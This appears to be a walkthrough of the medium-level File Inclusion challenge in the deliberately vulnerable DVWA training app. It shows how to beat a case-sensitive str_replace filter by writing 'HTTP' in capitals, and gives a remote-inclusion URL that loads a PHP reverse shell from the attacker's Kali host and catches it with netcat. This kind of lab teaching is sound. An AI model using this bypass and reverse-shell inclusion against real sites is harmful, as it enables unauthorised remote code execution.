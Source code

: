 <b>Challenge URL:</b> /dvwa/vulnerabilities/fi/
<br>
<b>Objective:</b> Read all five famous quotes from <b>../hackable/flags/fi.php</b> using only file inclusion.
<br>
<b>Tools needed:</b> A reverse shell, a temporary web server on Kali, netcat
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2004:%20File%20Inclusion.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

As always, let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/fisource.png" width="500">

We see that the code tries to remove all strings fitting the format <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code>. The developers hoped to protect against remote file inclusion with the first two strings and local file inclusions with the last two. Let's see how effective they are.

<h3><b>Crafting a New Exploit</b></h3>

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

That means that anything that does not match <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code> EXACTLY will still work. So let's modify our easy mode exploit by converting <code>http</code> to <code>HTTP</code> and try to replicate the exploit:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=HTTP&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>

And check our <code>netcat</code> listener:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/ficomplete.png" width="500">

... And it really was that easy. Challenge complete!
